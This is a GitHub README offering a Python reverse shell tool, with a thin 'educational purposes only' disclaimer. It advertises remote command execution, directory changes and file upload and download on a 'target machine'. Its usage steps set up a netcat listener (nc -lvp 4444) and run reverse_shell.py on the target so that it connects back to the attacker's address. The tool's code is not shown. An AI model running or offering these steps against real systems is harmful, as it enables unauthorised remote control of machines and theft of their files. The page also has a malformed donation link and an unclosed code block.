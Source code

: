 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py
python3 reverse_shell.py <target_ip> <target_port>
nc -lvp <target_port>
whoami
user
upload example.txt
download example.txt
cd /tmp
exit

## Example Interaction
1. Attacker's Machine:

Set up the listener:
nc -lvp 4444
2. Target Machine:

Run the script:
python3 reverse_shell.py 192.168.1.100 4444

3. Attacker's Machine:

Send a command:
whoami

Receive the output:
user

 ## 💰 You can help me by Donating
  [![BuyMeACoffee](https://img.shields.io/badge/Buy%20Me%20a%20Coffee-ffdd00?style=for-the-badge&logo=buy-me-a-coffee&logoColor=black)](https://buymeacoffee.com/guruhdev) 
  [![PayPal](https://img.shields.io/badge/PayPal-00457C?style=for-the-badge&logo=paypal&logoColor=white)](https://paypal.me/https://www.paypal.me/killecstasy) 
  

